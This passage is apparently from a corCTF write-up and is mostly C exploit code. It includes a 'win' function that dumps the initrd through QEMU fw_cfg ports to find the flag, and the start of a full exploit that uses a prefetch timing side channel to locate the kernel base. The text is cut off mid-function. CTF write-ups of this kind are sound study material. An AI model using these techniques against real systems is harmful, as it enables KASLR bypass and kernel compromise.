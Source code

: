 ```c
void win() {
	outw(FW_CFG_INITRD_DATA, FW_CFG_PORT_SEL);

	for (int i=0; i<MAPPING_SIZE; i++)
		initrd[i] = inb(FW_CFG_PORT_DATA);

	int fd = open("/tmp/initrd.gz", O_RDWR);
	write(fd, initrd, MAPPING_SIZE);
	system("gzip -d /tmp/initrd.gz && cat /tmp/initrd | grep corctf{");

	while(1) {}
}
```

## Full exploit
``` c
#include "kpwn.c"
#include <sys/syscall.h>
#include <sys/io.h>
#include <signal.h>

#define KERNEL_LOWER_BOUND 0xffffffff80000000ull
#define KERNEL_UPPER_BOUND 0xffffffffc0000000ull

#define STEP_KERNEL 0x200000ull
#define SCAN_START_KERNEL KERNEL_LOWER_BOUND
#define SCAN_END_KERNEL KERNEL_UPPER_BOUND
#define ARR_SIZE_KERNEL (SCAN_END_KERNEL - SCAN_START_KERNEL) / STEP_KERNEL

#define DUMMY_ITERATIONS 10
#define ITERATIONS 10000

uint64_t sidechannel(uint64_t addr) {
  uint64_t a, b, c, d;
  asm volatile (".intel_syntax noprefix\n"
    "mfence\n"
    "rdtscp\n"
    "mov %0, rax\n"
    "mov %1, rdx\n"
    "xor rax, rax\n"
    "lfence\n"
    "prefetchnta qword ptr [%4]\n"
    "prefetcht2 qword ptr [%4]\n"
    "xor rax, rax\n"
    "lfence\n"
    "rdtscp\n"
    "mov %2, rax\n"
    "mov %3, rdx\n"
    "mfence\n"
    ".att_syntax prefix\n"
    : "=r" (a), "=r" (b), "=r" (c), "=r" (d)
    : "r" (addr)
    : "rax", "rbx", "rcx", "rdx");
  a = (b << 32) | a;
  c = (d << 32) | c;
  return c - a;
}

uint64_t prefetch() {
	uint64_t arr_size = ARR_SIZE_KERNEL;
	uint64_t scan_start = SCAN_START_KERNEL;
	uint64_t step_size = STEP_KERNEL;
```